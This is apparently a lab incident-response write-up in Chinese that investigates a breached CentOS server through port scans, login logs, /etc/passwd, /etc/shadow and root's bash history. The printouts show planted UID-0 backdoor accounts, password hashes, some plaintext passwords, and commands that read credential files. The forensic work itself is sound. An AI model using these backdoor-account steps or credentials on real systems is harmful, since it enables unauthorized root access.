### 应急响应

- 端口随便扫描看看是否被挂网站了

```
2024/10/17 13:17:54    开始扫描...
192.168.71.6:80
192.168.71.6:3306
192.168.71.6:21
192.168.71.6:443
192.168.71.6:81
192.168.71.6:22
2024/10/17 13:17:55    扫描结束...
```

- 多了个81端口



- 访问80看看



- 被挂xss了
- 查看攻击的ip



- 查看登录成功的ip



- 查看最后一次登录的时间

```bash
[root@localhost ~]# last
root     pts/27       192.168.71.57    Thu Oct 17 13:13   still logged in   
root     pts/26       192.168.71.23    Thu Oct 17 13:13   still logged in   
root     pts/25       192.168.71.52    Thu Oct 17 13:13   still logged in   
root     pts/23       192.168.71.52    Thu Oct 17 13:07   still logged in   
root     pts/24       192.168.71.25    Thu Oct 17 12:57   still logged in   
root     pts/23       localhost        Thu Oct 17 12:55 - 13:07  (00:11)    
root     pts/24       localhost        Thu Oct 17 12:54 - 12:55  (00:01)    
fucker   pts/5        192.168.71.8     Thu Oct 17 12:52   still logged in   
root     pts/23       192.168.71.23    Thu Oct 17 12:38 - 12:54  (00:16)    
t0admin  pts/7        192.168.71.21    Thu Oct 17 12:28   still logged in   
t0admin  pts/7        192.168.71.21    Thu Oct 17 12:19 - 12:26  (00:06)    
root     pts/24       localhost        Thu Oct 17 12:18 - 12:25  (00:07)    
root     pts/23       localhost        Thu Oct 17 12:16 - 12:25  (00:08)    
root     pts/22       192.168.71.38    Thu Oct 17 12:01   still logged in   
root     pts/21       192.168.71.52    Thu Oct 17 12:01   still logged in   
root     pts/20       192.168.71.52    Thu Oct 17 11:59 - 12:40  (00:41)    
root     pts/20       192.168.71.46    Thu Oct 17 11:59 - 11:59  (00:00)    
beast_se pts/21       192.168.71.6     Thu Oct 17 11:57 - 11:58  (00:01)    
root     pts/20       192.168.71.33    Thu Oct 17 11:57 - 11:58  (00:00)    
root     pts/19       192.168.71.37    Thu Oct 17 11:56   still logged in   
root     pts/18       192.168.71.8     Thu Oct 17 11:39   still logged in   
root     pts/16       192.168.71.46    Thu Oct 17 11:35 - 11:35  (00:00)    
root     pts/15       192.168.71.33    Thu Oct 17 11:34   still logged in   
root     pts/13       192.168.71.41    Thu Oct 17 11:33   still logged in   
root     pts/12       192.168.71.6     Thu Oct 17 11:32   still logged in   
root     pts/12       192.168.71.254   Thu Oct 17 11:32 - 11:32  (00:00)    
root     pts/10       192.168.71.41    Thu Oct 17 11:28   still logged in   
root     pts/7        192.168.71.21    Thu Oct 17 11:21 - 12:19  (00:57)    
t0admin  pts/10       192.168.71.21    Thu Oct 17 11:19 - 11:20  (00:00)    
root     pts/10        192.168.71.21    Thu Oct 17 11:12 - 11:18  (00:06)    
root     pts/10       192.168.71.21    Thu Oct 17 11:11 - 11:11  (00:00)    
root     pts/11       192.168.71.31    Thu Oct 17 10:56 - 13:12  (02:15)    
root     pts/10       192.168.71.21    Thu Oct 17 10:55 - 11:11  (00:15)    
root     pts/9        192.168.71.17    Thu Oct 17 10:47   still logged in   
root     pts/5        192.168.172.1    Sat Jul 20 10:07 - 12:45 (89+02:37)  
root     pts/8        :1               Fri Jul 19 11:16   still logged in   
root     pts/7        192.168.172.1    Fri Jul 19 11:10 - 11:20 (90+00:09)  
root     pts/6        :1               Fri Jul 19 00:29   still logged in   
root     :1           :1               Fri Jul 19 00:28   still logged in   
root     pts/5        192.168.172.1    Thu Jul 18 15:25 - 13:07  (21:42)    
root     pts/5        192.168.172.1    Thu Jul 18 14:31 - 14:43  (00:12)    
root     pts/5        192.168.172.1    Thu Jul 18 14:19 - 14:30  (00:10)    
tralong  pts/4        :0               Thu Jul 18 14:12   still logged in   
tralong  pts/3        :0               Thu Jul 18 14:11   still logged in   
tralong  pts/0        :0               Thu Jul 18 13:59   still logged in   
tralong  pts/0        :0               Thu Jul 18 11:26 - 13:59  (02:33)    
tralong  pts/2        :0               Thu Jul 18 10:22   still logged in   
tralong  pts/1        :0               Thu Jul 18 09:22   still logged in   
tralong  pts/0        :0               Thu Jul 18 09:12 - 10:55  (01:42)    
tralong  :0           :0               Thu Jul 18 09:12   still logged in   
reboot   system boot  3.10.0-1160.el7. Thu Jul 18 09:11 - 13:22 (91+04:10)  
tralong  pts/0        :0               Tue Jul 16 16:37 - crash (1+16:33)   
tralong  pts/1        :0               Mon Jul 15 14:22 - 16:02  (01:39)    
tralong  pts/0        :0               Mon Jul 15 12:52 - 16:02  (03:10)    
tralong  :0           :0               Mon Jul 15 12:52 - crash (2+20:19)   
reboot   system boot  3.10.0-1160.el7. Mon Jul 15 12:50 - 13:22 (94+00:31)  
tralong  pts/2        :0               Mon Jul 15 11:50 - 12:50  (01:00)    
tralong  pts/1        :0               Mon Jul 15 11:34 - 12:50  (01:16)    
tralong  pts/0        :0               Mon Jul 15 11:26 - 12:50  (01:23)    
tralong  :0           :0               Mon Jul 15 11:24 - crash  (01:26)    
reboot   system boot  3.10.0-1160.el7. Mon Jul 15 11:16 - 13:22 (94+02:05)  

wtmp begins Mon Jul 15 11:16:21 2024
```

- 正在登录的用户信息



- 查看登录失败的信息

```bash
lastb
```



- 很明显ssh被爆破了

- 查看root权限用户


- 查看你passwd

```bash
cat /etc/passwd
```



- 全是可疑用户

- 再看看/etc/shadow



- 查看历史执行的命令

```bash
[root@localhost ~]# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:998:995:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
colord:x:997:994:User for colord:/var/lib/colord:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
saned:x:996:993:SANE scanner daemon user:/usr/share/sane:/sbin/nologin
gluster:x:995:992:GlusterFS daemons:/run/gluster:/sbin/nologin
saslauth:x:994:76:Saslauthd user:/run/saslauthd:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:993:990::/var/lib/setroubleshoot:/sbin/nologin
rtkit:x:172:172:RealtimeKit:/proc:/sbin/nologin
pulse:x:171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
chrony:x:992:987::/var/lib/chrony:/sbin/nologin
unbound:x:991:986:Unbound DNS resolver:/etc/unbound:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sssd:x:990:984:User for sssd:/:/sbin/nologin
usbmuxd:x:113:113:usbmuxd user:/:/sbin/nologin
geoclue:x:989:983:User for geoclue:/var/lib/geoclue:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
gdm:x:42:42::/var/lib/gdm:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
gnome-initial-setup:x:988:982::/run/gnome-initial-setup/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
tralong:x:1000:1000:tralong:/home/tralong:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
test1:x:1002:1001::/home/test1:/bin/bash
test2:x:1003:1001::/home/test2:/sbin/nologin
t001admin:x:1004:1004::/home/t001admin:/bin/bash
T0adnin:x:0:0::/home/T0adnin:/bin/bash
t0admin:x:0:0::/home/t0admin:/bin/bash
beast_senpai:x:1007:1007::/home/beast_senpai:/bin/bash
laffrex:x:1008:0::/home/laffrex:/bin/bash
tomato:x:0:10::/home/tomato:/bin/bash
whatcanisay:x:1010:1010::/home/whatcanisay:/bin/bash
fucker:x:1011:1011::/home/fucker:/bin/bash
www:x:1012:1012::/home/www:/sbin/nologin
fly:x:1013:0::/home/fly:/bin/bash
hello:x:1014:1014::/home/hello:/bin/bash
hello2:x:0:0::/home/hello2:/bin/bash
ww:x:1015:1015::/home/ww:/bin/bash
[root@localhost ~]# cat /etc/shadow
root:$1$2Vz8Tkb9$9Ubc0AjsKB9HCCIObGVHE.:19922:0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
systemd-network:!!:19919::::::
dbus:!!:19919::::::
polkitd:!!:19919::::::
libstoragemgmt:!!:19919::::::
colord:!!:19919::::::
rpc:!!:19919:0:99999:7:::
saned:!!:19919::::::
gluster:!!:19919::::::
saslauth:!!:19919::::::
abrt:!!:19919::::::
setroubleshoot:!!:19919::::::
rtkit:!!:19919::::::
pulse:!!:19919::::::
radvd:!!:19919::::::
chrony:!!:19919::::::
unbound:!!:19919::::::
qemu:!!:19919::::::
tss:!!:19919::::::
sssd:!!:19919::::::
usbmuxd:!!:19919::::::
geoclue:!!:19919::::::
ntp:!!:19919::::::
gdm:!!:19919::::::
rpcuser:!!:19919::::::
nfsnobody:!!:19919::::::
gnome-initial-setup:!!:19919::::::
sshd:!!:19919::::::
avahi:!!:19919::::::
postfix:!!:19919::::::
tcpdump:!!:19919::::::
tralong:$5$RSuEp8qv4BlQSWjR$WPqAN2LOoRRg825E2Tm8VuuK8yybDrCoBPSWdu8XW./:19919:0:99999:7:::
apache:!!:19923::::::
mysql:!!:19923::::::
test1:!!:19923:0:99999:7:::
test2:!!:19923:0:99999:7:::
t001admin:!!:20013:0:99999:7:::
T0adnin:!!:20013:0:99999:7:::
t0admin:$1$Vj5vfO.1$nWIMECLPolLHvXYtIGtp00:20013:0:99999:7:::
beast_senpai:$1$Dvgz0d/z$9HlOheELkaU302b02pWw10:20013:0:99999:7:::
laffrex:!!:20013:0:99999:7:::
tomato:$1$9oi8/Xuo$eLaA0JgsvuViLsYVEplnH0:20013:0:99999:7:::
whatcanisay:!!:20013:0:99999:7:::
fucker:$1$Qy41ba.7$isF7RromJi2VIBkB6LjTQ.:20013:0:99999:7:::
www:!!:20013:0:99999:7:::
fly:fly:20013:0:99999:7:::
hello:123:20013:0:99999:7:::
hello2:$1$EWr91Q.3$n5flcSvTQhFlEpjZ7BrrL1:20013:0:99999:7:::
ww:!!:20013:0:99999:7:::
[root@localhost ~]# cat /root/.bash_history
sudo cat /etc/sysconfig/network-scripts/ifcfg-ens33
ping baidu.com
vim /etc/sysconfig/network-scripts/ifcfg-ens33
systemctl restart network.service
ifconfig
ping baidu.com
vi /etc/sysconfig/network
systemctl restart network.service
ping baidu.com
ifconfig
systemctl restart network.service
ifconfig
ping baidu.com
ifconfig
ping baidu.com
ping 8.8.8.8
vi /etc/sysconfig/network
vim /etc/sysconfig/network-scripts/ifcfg-ens33
ping 8.8.8.8
systemctl restart network.service
ping 8.8.8.8
ping baidu.com
reboot
systemctl restart network.service
ping baidu.com
vi /etc/sysconfig/network
systemctl restart network.service
ping baidu.com
vim /etc/resolv.conf
ping baidu.com
passwd root
ls
stat 123.txt 
su tralong
iptables -t filter -I INPUT -p icmp -j REJECT
ping 127.0.0.1
ifconfig
ping 192.168.172.100
iptables -t filter -I INPUT -p icmp -j ACCEPT
ping 192.168.172.100
iptabels  -n -L INPUT
iptables  -n -L INPUT
iptables -D INPUT 1
iptables  -n -L INPUT
iptables -D INPUT 1
iptables  -n -L INPUT
iptables -t filter -I INPUT -p icmp -j ACCEPT -D 192.168.172.150
iptables -t filter -I INPUT -p icmp -j ACCEPT -d 192.168.172.150
iptables  -n -L INPUT
iptables -D INPUT 1
iptables  -n -L INPUT
iptables -t filter -I INPUT -p icmp -j REJECT -d 192.168.172.150
iptables  -n -L INPUT
iptables -t filter -I OUTPUT -p icmp -j REJECT -d 192.168.172.150
iptables  -n -L INPUT
iptables  -n -L OUTPUT
iptables -D INPUT 1
iptables -D OUTPUT 1
LS
ls
ls -l
stat
touch 123.txt
stat 123.txt 
cat 123.txt 
stat 123.txt 
clear
stat 123.txt 
clear
su
cd ~
cd test1/test2
cd /
pwd
ls
cd root/
clear
cd /test1/test2
cd /
ls
cd /root/test1/test2/
clear
stat 123.txt
clear
stat 123.txt 
clear
touch cxk2.txt
stat cxk2.txt 
vim cxk4.txt 
grep cxk4.txt -c
grep -c cxk4.txt 
grep -c "egg" cxk4.txt 
grep -c "6" cxk4.txt 
cat cxk4.txt 
grep -c "a" cxk4.txt 
grep -c "b" cxk4.txt 
grep -i -c "b" cxk4.txt 
grep  -l -i -c "b" cxk4.txt 
grep  -l -i -c "b" 
grep  -l "niganma" cxk1.txt cxk2.txt cxk3.txt  cxk4.txt 
cat cxk1.txt 
cat cxk2.txt 
cat cxk3.txt 
grep  -l "ayo" cxk1.txt cxk2.txt cxk3.txt  cxk4.txt 
grep -n  -l "ayo" cxk1.txt cxk2.txt cxk3.txt  cxk4.txt 
grep -n -c "b" cxk4.txt 
grep -n "b" cxk4.txt 
grep -v "b" cxk4.txt 
grep -w "b" cxk4.txt 
grep -n -w "b" cxk4.txt 
grep -n -w "6" cxk4.txt 
grep -n -w "666" cxk4.txt 
nmap 1.1.1.1
ping 1.1.1.1
cd test1/test2/
tar -cf . a.tar
tar -cf a.tar .
tar -cf a.tar cxk1.txt
tar -cf cxk1.txt n.tar
ls
tar -Af a.tar cxk2.txt 
tar -Avf a.tar cxk3.txt 
tar -vAf a.tar cxk3.txt 
tar -v a.tar cxk3.txt 
tar -vf a.tar cxk3.txt 
tar -czvf a.tar cxk3.txt 
tar -x a.tar 
tar -xzf a.tar 
tar -x a.tar 
tar -xf a.tar 
mkdir test3 
cd test3/
cp
cp /root/test1/test2/a.tar /root/test1/test2/test3/
ls
tar -x a.tar 
ls
tar -xf a.tar 
ls
cd ,,
cd ..
tar -Af a.tar cxk2.txt 
tar -tf a.tar 
cd test3/
tar -cf b.tar cxk3.txt 
echo 1 > 2.txt
tar -Af b.tar 2.txt 
tar -tf b.tar 
ifconfig | grep 1
pwd
ping 1.1.1.1
jobs
fg %1
ping 1.1.1.1
jobs
fg %2
jobs
fg %3
jobs
fg
passwd root
ls
cd test1/
cd test2/
cd test3/
ls
rm b.tar 
rm a.tar 
ls
tar -cf test.tar cxk3.txt 
tar -tf test.tar 
ls
rm -f cxk3.txt 
ls
tar -xf test.tar 
ls
mkdir test4/test5
mkdir test4
move
mv
ls
mv 2.txt test4
;s
ls
ls test4
ls
pwd
cd /root/test1/test2/test3/test4/
cd ..
cd test4
cd ..
ls
tar -cf test1.tar test4
ls
tar -tf test1.tar 
ls
rm -rf test4
ls
mkdir test4
ls
rm test4

ls
tar -zxvf test1.tar 
tar -xvf test1.tar 
ls
tar -xvft test1.tar 
tar -xvf test1.tar 
tar -tf test1.tar 
tar -vtf test1.tar 
tar -xvtf test1.tar 
tar -Cxf test1.tar  /root/
tar -xvf test1.tar  -C /root/
ls /root
rm -rf /root/test4
ls root
ls /root/
tar -xvf test1.tar  -C /root/
ls /root/
;s
ls
pwd
clear
ls
zip 
zip -r test4 test3.zip
zip -r test4 -i test3.zip
zip -r test4 。 -i test3.zip
zip -r test4 .-i test3.zip
zip -r test4 . -i test3.zip
ls
unzip test4
unzip test4.zip 

ls
rm test4.zip
zip test4.zip cxk3.txt 
rm cxk3.txt 
ls
unzip test4.zip 
ls
zip digui.zip test4
ls
rm digui.zip
zip -v digui.zip test4
cd ..
rm -rf test3
mkdir test3
cd test3/
ls
echo 1 > 1.txt
echo 1 > 2.txt
echo 1 > 3.txt
ls
zip new.zip 1.txt 2.txt 3.txt 
ls
echo 1 > 4.txt
zip new.zip 4.txt 
zip -sf new.zip 4.txt 
zip -d new.zip 4.txt 
zip -sf new.zip 4.txt 
ls
rm 1.txt 2.txt 3.txt 4.txt 
ls
unzip new.zip 
ls
rm -rf 1.txt 2.txt 3.txt 
mkdir test4
ls
unzip new.zip -d test4
ls
ls test4
unzip -l new.zip 
zip new.zip 4.txt 
ls
echo 1 > 4.txt

unzip -l new.zip 
ls
pwd
find 4.txt
find 1.txt
find / 1.txt
cd test4/
ls
find / 1.txt
find / -name "1.txt"
find / -name "test.txt"
touch /root/test.txt
find / -name "test.txt"
echo 123456 > /home/tralong/userpass.txt
find / -name "*pass.txt"
find / -user root -name "*pass.txt*"
find / -user tralong -name "*pass.txt*"
find / -group root -name "*pass.txt*"
id
find / -nouser tralong -name "*pass.txt*"
find / -nouser "tralong" -name "*pass.txt*"
find / -nouser=tralong -name "*pass.txt*"
find / -user tralong -name "*pass.txt*"
find / -nouser tralong -name "*pass.txt*"
ls
find . 1.txt
find . -name "1.txt"
find . -name "4.txt"
find -nouser
find -nouser -name
find -nouser -name "1.txt"
find -name "1.txt"
find -type txt
find -type /txt
find -type .txt
find / -type txt
find . -type f
find . -type d
find / -type d
find / -type f
find / -name ".properties"
find / -name "*.properties*"
find / -name "*.properties"
which whoami
/usr/bin
cd /usr/bin/
ls
pwd
./pwd
echo $PATH
which python
which 1.txt
yum install vim
yum -y install vim
vim
cd /root
ls
vim test
ls
vim test.txt 
more test
more test.txt 
vim test.txt 
vim test
vim test.txt 
vim password.txt
fg
echo $PATH
./
ls ./
pwd
ls ../
cd ./
cd ../
pwd
cd ~tralong
ls
cd ~
cd /etc/yum.repos.d/
ls
yum search httpd
yum search http
yum search wireshark-gnome
ping baidu.com
ping 1.1.1.1
ping baidu.com
yum search wireshark-gnome
cat /etc/resolv.conf
sudo wget -O /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
yum clean all
yum makecache
yum search wireshark-gnome
yum search httpd
yum info wireshark-gnome.x86_64 
yum update
_____________________________________________________________________________
jobs
fg
yum update
whoami
ifconfig
->useradd t001admin
->paswd admin
->wd admin
->eradd t001admin
->sswd admin
->useradd T0adnin
->passwd admin
->ssh T0admin@192.168.71.6
ifconfig
whoami
ls
dir
->useradd t0admin
->password admin
->passwd admin
->passwd t0admin
->passwd -d t0admin
->passwd -S t0admin
->passwd t0admin
->passwd -S t0admin
->passwd t0admin
->passwd -d t0admin
->passwd -S t0admin
exit
ls
->userad t0admin
->useradd t0admin
->passwd admin123456
->passwd t0admin
exit
 
->id test
->id root
->groupadd "Genshin Impact"
->groupadd "Genshin_Impact"
->groupadd -g 7777 "Genshin_Impact"
->groupadd -g 7777 "Genshin_Impact2"
->groupmod "qidong" "Genshin_Impact" 
->groupmod -n "qidong" "Genshin_Impact" 
cat /etc/group
groupmod -g 9999 "Genshin_Impact2"
cat /etc/group
->groupdel "Genshin_Impact2"
->groupdel "qidong"
systemctl enable mysqld
vim /usr/local/apache2/conf/httpd.conf
find / - name "apachectl"
find / -name "apachectl"
find / -name "httpd.conf"
vim /etc/httpd/conf/httpd.conf 
find / -name "httpd.conf"
vim /etc/httpd/conf/httpd.conf 
->->systemctl restart httpd
find / -name "apachectl"
./usr/sbin/apachectl -k restart
/usr/sbin/apachectl -k restart
cd /usr/
cd sbin/
ls | grep apache
./apachectl -k restart
systemctl status httpd
vim /etc/httpd/conf/httpd.conf 
pts
lst
last
yum -y install httpd httpd-devel httpd-manual mod_ssl
ls
cd /var/www/html/
ls
cat js_post.php 
cat js_content.php.php 
cat js_content.php
cat js_post.php 
ls
->chmod 777 content.json 
->chmod 777 index.html 
->chmod 777 js_content.php 
->chmod 777 js_post.php 
ls
cat content.json 
rm content.json 
touch content.json
cat content.json 
echo 1 > content.json 
cat /etc/shadow
cat /etc/paswd
cat /etc/passwd
./sbin/nologin
cat /etc/group
cat /etc/gshadow
cat /etc/group
cat /etc/shadow
A
cat /etc/passwd
cat /etc/group
cat /etc/sgroup
cat /etc/gshodw
cat /etc/gshaodw
